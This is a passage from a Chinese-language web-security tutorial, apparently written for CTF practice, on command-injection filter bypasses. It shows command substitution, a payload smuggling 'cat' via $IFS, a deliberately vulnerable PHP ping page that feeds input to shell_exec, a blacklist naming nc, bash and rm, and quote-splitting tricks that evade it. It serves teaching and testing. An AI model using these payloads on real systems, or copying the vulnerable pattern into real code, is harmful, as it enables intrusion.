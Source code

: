例如：

```shell
echo "a`pwd`"
```

还有

```shell
?ip=127.0.0.1;cat$IFS$9`ls`
```

###### 还有$(command)

例如：

```shell
echo "abcd $(pwd)"
```

##### 用引号绕过关键字过滤

实例代码：

```php
<?php
  error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\{)/i", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no no no!')
window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no flag!')
window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
  ?>
```

代码中绕过了cat、more、index、php等关键字，我们可以用引号绕过这些过滤，实例如下：

```powershell
ca""t  =>  cat
mo""re  =>  more  
in""dex  =>  index
ph""p  =>  php
```

##### 用通配符绕过关键字过滤

**原理就是利用”?“在正则表达式和shell命令行中的区别绕过关键字过滤。**

还是上面那个示例代码：
